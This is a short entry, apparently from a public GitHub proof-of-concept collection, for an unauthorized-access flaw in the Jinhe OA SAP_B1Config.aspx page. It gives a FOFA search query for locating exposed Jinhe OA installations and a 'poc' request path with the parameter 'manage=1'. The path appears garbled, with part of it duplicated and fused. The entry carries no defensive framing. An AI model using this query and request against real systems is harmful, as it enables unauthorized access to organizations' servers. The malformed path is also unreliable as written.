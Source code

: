 ## 金和OA_SAP_B1Config.aspx未授权访问漏洞

## fofa
```
app="金和网络-金和OA"
```

## poc
```
/C6/JHsoft./C6/JHsoft.CostEAI/SAP_B1Config.aspx/?manage=1CostEAI/SAP_B1Config.aspx/?manage=1
```

![image](https://github.com/wy876/POC/assets/139549762/1f939923-f6bc-4a8f-9a00-8b0fc549a2c7)
